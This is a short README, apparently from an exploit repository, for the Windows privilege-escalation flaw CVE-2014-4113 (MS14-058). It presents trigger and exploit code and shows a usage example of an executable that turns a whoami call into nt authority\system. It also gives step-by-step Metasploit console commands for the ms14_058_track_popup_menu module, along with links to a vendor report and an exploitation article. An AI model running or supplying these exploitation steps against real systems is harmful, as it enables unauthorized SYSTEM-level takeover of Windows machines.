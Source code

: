 # MS14-058 

- Trigger and exploit code for CVE-2014-4113
- The poc was from [@sam-b](https://github.com/sam-b/CVE-2014-4113)

Vulnerability reference:
 * [MS14-058](https://technet.microsoft.com/library/security/ms14-058)
 

## Usage
c:\> Win64.exe whoami
nt authority\system

![win7](win7.png)

## load the module within the Metasploit console
```
    msf > use exploit/windows/local/ms14_058_track_popup_menu
    msf exploit(ms14_058_track_popup_menu) > show targets
          ...targets...
    msf exploit(ms14_058_track_popup_menu) > set TARGET <target-id>
    msf exploit(ms14_058_track_popup_menu) > show options
          ...show and set options...
    msf exploit(ms14_058_track_popup_menu) > exploit
```

## Links

- [CrowdStrike Discovers Use of 64-bit Zero-Day Privilege Escalation Exploit (CVE-2014-4113) by Hurricane Panda](https://www.crowdstrike.com/blog/crowdstrike-discovers-use-64-bit-zero-day-privilege-escalation-exploit-cve-2014-4113-hurricane-panda/)
- [让CVE-2014-4113成功溢出Win8](http://www.freebuf.com/articles/system/50110.html)